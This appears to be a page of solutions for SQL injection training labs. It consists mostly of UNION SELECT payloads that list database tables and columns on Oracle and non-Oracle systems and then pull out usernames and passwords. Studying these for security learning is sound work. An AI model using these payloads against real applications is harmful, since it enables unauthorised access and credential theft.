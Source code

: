 
## **5. SQL injection attack, listing the database contents on non-Oracle databases**
```
' UNION SELECT 'abc','def'--
```

Retrieve the list of tables in the database and find the name of the table containing user credentials
```
' UNION SELECT table_name, null FROM information_schema.tables--
```

Replacing the table name to retrieve the details of the columns in the table:
```
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users_abcdef'--
```

Replacing the table and column names to retrieve the usernames and passwords for all users:
```
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```


## **6. SQL injection attack, listing the database contents on Oracle**
```
' UNION SELECT 'a', 'b' FROM all_tables--
```

```
' UNION SELECT 'a', table_name FROM all_tables--
```

```
' UNION SELECT 'a', column_name FROM all_tab_columns WHERE table_name='USERS_EIEFAP'--
```

```
' UNION SELECT USERNAME_LFECQG, PASSWORD_MSPEUR FROM USERS_EIEFAP--
```


## **7. SQL injection UNION attack, finding a column containing text**
```
' UNION SELECT 'qHuBUo',null,null FROM information_schema.tables--
```

```
' UNION SELECT null,'qHuBUo',null FROM information_schema.tables--
```

```
' UNION SELECT null,null,'qHuBUo' FROM information_schema.tables--
```


## **8. SQL injection UNION attack, retrieving data from other tables**
```
' UNION SELECT null,null--
```
